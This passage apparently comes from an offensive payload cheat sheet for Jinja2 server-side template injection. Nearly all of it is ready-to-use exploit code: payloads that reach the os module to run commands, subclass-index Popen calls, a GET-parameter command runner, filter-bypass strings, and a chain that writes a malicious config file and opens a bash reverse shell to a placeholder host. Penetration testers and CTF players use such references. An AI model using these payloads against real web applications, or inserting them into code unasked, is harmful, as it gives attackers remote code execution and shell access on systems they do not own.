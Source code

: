 With [objectwalker](https://github.com/p0dalirius/objectwalker) we can find a path to the `os` module from `lipsum`. This is the shortest payload known to achieve RCE in a Jinja2 template:

```python
{{ lipsum.__globals__["os"].popen('id').read() }}
```

Source: https://twitter.com/podalirius_/status/1655970628648697860

#### Exploit the SSTI by calling subprocess.Popen

:warning: the number 396 will vary depending of the application.

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### Exploit the SSTI by calling Popen without guessing the offset

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Simply modification of payload to clean up output and facilitate command input (https://twitter.com/SecGus/status/1198976764351066113)
In another GET parameter include a variable named "input" that contains the command you want to run (For example: &input=ls)

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

#### Exploit the SSTI by writing an evil config file.

```python
# evil config
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```

### Jinja2 - Filter bypass

```python
request.__class__
request["__class__"]
```

